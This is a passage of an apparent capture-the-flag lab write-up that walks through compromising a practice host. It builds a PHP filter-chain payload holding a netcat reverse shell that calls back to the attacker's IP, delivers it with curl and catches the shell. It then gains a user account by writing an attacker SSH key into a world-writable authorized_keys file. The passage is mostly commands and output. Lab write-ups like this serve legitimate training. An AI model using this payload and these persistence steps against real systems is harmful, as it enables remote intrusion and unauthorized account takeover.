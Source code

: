   ```
  $ python3 php_filter_chain_generator.py --chain '<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc [YOUR-THM-IP] 4444 >/tmp/f"); ?>' | grep '^php' > payload.txt

  $ curl -s "http://10.10.76.30/secret-script.php?file=$(cat payload.txt)"

  $ nc -lvnp 4444
  listening on [any] 4444 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.76.30] 39232
  sh: 0: can't access tty; job control turned off
  $ whoami
  www-data
  $ id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  ```
  
- Switch to Putty shell and move on.

---

## 🧍 User Privilege Escalation

- We need to escalate to user `comte` then root in order to get both flags. We have access to write to `comte` SSH keys tho.

  ```
  www-data@ip-10-10-76-30:/home/comte$ find /  -type f -writable 2>/dev/null | grep -Ev '^(/proc|/snap|/sys|/dev)'
  /home/comte/.ssh/authorized_keys
  /etc/systemd/system/exploit.timer
  ```
  
- On your local machine crate a set of keys, then add them to `comte` authorized keys and then connect with SSH using the key you created.

  ```
  $ ssh-keygen -f id_ed25519 -t ed25519
  
  $ cat id_ed25519.pub 
  ssh-ed25519 [SNIP!] username@host

  www-data@ip-10-10-76-30:/var/www/html$ echo 'ssh-ed25519 [SNIP!] username@host' > /home/comte/.ssh/authorized_keys

  $ ssh -i id_ed25519 comte@10.10.76.30
  The authenticity of host '10.10.76.30 (10.10.76.30)' can't be established.
  ED25519 key fingerprint is SHA256:[SNIP!].
  This key is not known by any other names.
  Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
  Warning: Permanently added '10.10.76.30' (ED25519) to the list of known hosts.
  Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-138-generic x86_64)
  
  [SNIP!]
  
  Last login: Thu Apr  4 17:26:03 2024 from 192.168.0.112
  comte@ip-10-10-76-30:~$ whoami
  comte
  comte@ip-10-10-76-30:~$ id
  uid=1000(comte) gid=1000(comte) groups=1000(comte),24(cdrom),30(dip),46(plugdev)
  ```
  
